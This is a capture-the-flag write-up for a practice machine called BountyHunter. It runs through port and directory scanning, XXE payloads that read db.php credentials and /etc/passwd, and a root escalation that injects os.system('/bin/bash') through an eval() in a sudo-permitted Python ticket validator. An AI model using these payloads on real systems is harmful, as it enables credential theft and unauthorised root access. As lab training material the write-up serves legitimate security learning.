



# BountyHunter

Starting off with `nmap`

```
# Nmap 7.92 scan initiated Sun Aug 22 14:07:32 2021 as: nmap -vvv -p 22,80 -sCV -oA init 10.10.11.100
Nmap scan report for box.ip (10.10.11.100)
Host is up, received syn-ack (0.086s latency).
Scanned at 2021-08-22 14:07:33 +07 for 10s

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 d4:4c:f5:79:9a:79:a3:b0:f1:66:25:52:c9:53:1f:e1 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDLosZOXFZWvSPhPmfUE7v+PjfXGErY0KCPmAWrTUkyyFWRFO3gwHQMQqQUIcuZHmH20xMb+mNC6xnX2TRmsyaufPXLmib9Wn0BtEYbVDlu2mOdxWfr+LIO8yvB+kg2Uqg+QHJf7SfTvdO606eBjF0uhTQ95wnJddm7WWVJlJMng7+/1NuLAAzfc0ei14XtyS1u6gDvCzXPR5xus8vfJNSp4n4B5m4GUPqI7odyXG2jK89STkoI5MhDOtzbrQydR0ZUg2PRd5TplgpmapDzMBYCIxH6BwYXFgSU3u3dSxPJnIrbizFVNIbc9ezkF39K+xJPbc9CTom8N59eiNubf63iDOck9yMH+YGk8HQof8ovp9FAT7ao5dfeb8gH9q9mRnuMOOQ9SxYwIxdtgg6mIYh4PRqHaSD5FuTZmsFzPfdnvmurDWDqdjPZ6/CsWAkrzENv45b0F04DFiKYNLwk8xaXLum66w61jz4Lwpko58Hh+m0i4bs25wTH1VDMkguJ1js=
|   256 a2:1e:67:61:8d:2f:7a:37:a7:ba:3b:51:08:e8:89:a6 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKlGEKJHQ/zTuLAvcemSaOeKfnvOC4s1Qou1E0o9Z0gWONGE1cVvgk1VxryZn7A0L1htGGQqmFe50002LfPQfmY=
|   256 a5:75:16:d9:69:58:50:4a:14:11:7a:42:c1:b6:23:44 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJeoMhM6lgQjk6hBf+Lw/sWR4b1h8AEiDv+HAbTNk4J3
80/tcp open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 556F31ACD686989B1AFCF382C05846AA
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Bounty Hunters
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Aug 22 14:07:43 2021 -- 1 IP address (1 host up) scanned in 10.36 seconds
```

Looking at the web page on port 80, in the source code, there's an interesting comment

> To configure the contact form email address, go to mail/contact_me.php and update the email address in the PHP file on line 19.

Navigating to `/mail/contact_me.php`, we get a 404 Not Found so we'll just note it down for later.

Running `gobuster` ...

```
/.                    (Status: 200) [Size: 25169]
/assets               (Status: 403) [Size: 271]
/css                  (Status: 403) [Size: 271]
/db.php               (Status: 200) [Size: 0]
/index.php            (Status: 200) [Size: 25169]
/js                   (Status: 403) [Size: 271]
/portal.php           (Status: 200) [Size: 125]
/resources            (Status: 200) [Size: 2834]
/server-status        (Status: 403) [Size: 271]
```

... we find some interesting PHP pages, but `db.php` can't be shown as it's not a full page by itself, leaving us with `portal.php` to use. Navigating to the portal, we're met with a message telling us to go to `/log_submit.php`

> Portal under development. Go here to test the bounty tracker.

We follow the message and go to `/log_submit.php`. Here, we can fill a form and submit bounties. Intercepting and repeating the request shows that we're submitting XML data.



Knowing that we're working with XML, we attempt XXE (XML eXternal Entity). The file `db.php` is likely there for connections to the database, so it likely has credentials, so we'll aim to grab its source code. Using the previous request complete XML document as a template, we craft our XXE payload and encode it wit base64 and URL encoding.



```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=db.php"> ]>
		<bugreport>
		<title>&xxe;</title>
		<cwe>cwe</cwe>
		<cvss>cvss</cvss>
		<reward>reward</reward>
		</bugreport>
```

With this, we should get a response with the base64-encoded `db.php` file. Decoding the result gives us credentials for the user "admin". With this, we can try logging into SSH as admin, but to no avail. The username to log into SSH with the found password, if it exists, is not the same "admin" username, so we have to look for other usernames.
 To do this, we can simply exfiltrate `/etc/passwd` from the machine, using XXE with a different target file. After modifying the previous exploit in Cyberchef, we send it to the server to get `/etc/passwd`.



```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "/etc/passwd"> ]>
		<bugreport>
		<title>&xxe;</title>
		<cwe>cwe</cwe>
		<cvss>cvss</cvss>
		<reward>reward</reward>
		</bugreport>
```

In `/etc/passwd`, we see 2 users with a shell: root and development. Testing the previously found password, it only works to log in as "development", so we get an SSH shell as that user.

Checking `sudo -l`, we find that we're able to run a python script as root without a password.

```sh
development@bountyhunter:~$ sudo -l
Matching Defaults entries for development on bountyhunter:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User development may run the following commands on bountyhunter:
    (root) NOPASSWD: /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
```

Looking at the code ...

```python
#Skytrain Inc Ticket Validation System 0.1
#Do not distribute this file.

def load_file(loc):
    if loc.endswith(".md"):
        return open(loc, 'r')
    else:
        print("Wrong file type.")
        exit()

def evaluate(ticketFile):
    #Evaluates a ticket to check for ireggularities.
    code_line = None
    for i,x in enumerate(ticketFile.readlines()):
        if i == 0:
            if not x.startswith("# Skytrain Inc"):
                return False
            continue
        if i == 1:
            if not x.startswith("## Ticket to "):
                return False
            print(f"Destination: {' '.join(x.strip().split(' ')[3:])}")
            continue

        if x.startswith("__Ticket Code:__"):
            code_line = i+1
            continue

        if code_line and i == code_line:
            if not x.startswith("**"):
                return False
            ticketCode = x.replace("**", "").split("+")[0]
            if int(ticketCode) % 7 == 4:
                validationNumber = eval(x.replace("**", ""))
                if validationNumber > 100:
                    return True
                else:
                    return False
    return False

def main():
    fileName = input("Please enter the path to the ticket file.\n")
    ticket = load_file(fileName)
    #DEBUG print(ticket)
    result = evaluate(ticket)
    if (result):
        print("Valid ticket.")
    else:
        print("Invalid ticket.")
    ticket.close

main()
```

We see that the script takes in a ticket file and validates it. Besides the multiple format checks we have to abide by in order to get our ticket file process, we have an interesting `eval` on line 34 of the code. Targeting this execution, we craft our ticket file


```md
# Skytrain Inc
## Ticket to root
__Ticket Code:__
**11+1==12 and __import__('os').system('/bin/bash') == False
```

Run the code on our file named `root.md` (the extension is important) and we should be root.
